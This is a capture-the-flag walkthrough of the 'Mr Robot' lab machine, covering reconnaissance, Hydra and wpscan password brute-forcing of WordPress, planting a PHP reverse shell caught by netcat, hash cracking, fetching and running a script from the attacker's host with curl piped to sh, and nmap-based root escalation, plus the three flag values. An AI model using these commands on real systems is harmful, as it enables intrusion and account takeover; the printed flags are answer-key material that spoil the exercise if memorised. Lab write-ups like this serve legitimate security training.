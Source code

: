 # Module: Mr Robot CTF

Author: Jackson Warren  
Date: August 30, 2022

## Export IP
$ `export ip=10.10.27.8`

## Nmap scan
$ `nmap -sC -sV -oN nmap-$ip.out $ip`

## Hint #1
"robots"

Check /robots.txt URL

Found:
- User-agent: *
- fsocity.dic
- key-1-of-3.txt

$ `cat key-1-of-3.txt`
**073403c8a58a1f80d943455fb30724b9**

## GoBuster scan
Found **wp-login** on gobuster

## Burp Suite Intercept
Used burp suite to capture request
![Burp Suite](/images/Screenshot_20220830_035142.png)
**log=admin&pwd=admin**&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.27.8%2Fwp-admin%2F&testcookie=1

## Use Hydra To Crack Username And Password

#### Using hydra to find username:
$ `hydra -L fsocity.dic -p test 10.10.27.8 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"`

Username = **Elliot**

## Sort out dupes from fsocity.dic
$ `wc -l fsocity.dic`       
858160 fsocity.dic  
$ `sort fsocity.dic | uniq > fsocity_sorted.dic`  
$ `wc -l fsocity_sorted.dic`  
11451 fsocity_sorted.dic -- MUCH smaller :)

## Use wpscan to find password:
$ `wpscan -U user.txt -P fsocity_sorted.dic --url http://10.10.27.8/wp-login.php`

`[!] Valid Combinations Found:  
 | Username: Elliot, Password: ER28-0652`

Password = ER28-0652

## Login to WordPress
Username = **Elliot**  
Password = **ER28-0652**

## Insert PHP resverse shell
[https://github.com/pentestmonkey/php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Edit theme template archive page and paste in reverse shell then change IP to your tun0 IP and the port to your nc listener port which is 53


## Run Netcat Listener
$ `rlwrap nc -lvnp 53` # rlwrap is quality of life add on for tab completions etc

## Enumerate
`ls /home`
robot
cd /home/robot
ls
key-2-of-3.txt
password.raw-md5

ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
`cat password.raw-md5`
robot:c3fcd3d76192e4007dfb496cca67e13b

## Create m5d.hash file
`gedit md5.hash`
paste hash (c3fcd3d76192e4007dfb496cca67e13b) and save

## Run John The Ripper To Crack MD5 Hash
$ `john md5.hash --wordlist=fsocity.dic --format=Raw-MD5`

password = **abcdefghijklmnopqrstuvwxyz**

## Upgrade to interactive shell
$ `python -c 'import pty;pty.spawn("/bin/bash")'`

## Switch user to robot
$ `su robot`
enter password: **abcdefghijklmnopqrstuvwxyz**

## Cat flag #2 :)
`cat key-2-of-3.txt`
**822c73956184f694993bede3eb39f959**

## Privlage Escalation
using LinEnum 
clone LinEnum and cd into LinEnum
run a simple server
$ `python3 -m http.server 80`

On victim box run curl
`curl <your tun0 IP>/LinEnum.sh | sh

---- INTERESTING FILES -----
Notice nmap is installed on the server?  

run nmap and find its a version capable of running in interactive mode

### run nmap in interactive mode
`nmap --interactive`

run `!sh`
you are now root

`cd /root`
`ls`
`cat key-3-of-3.txt`
**04787ddef27c3dee1ee161b21670b4e4**



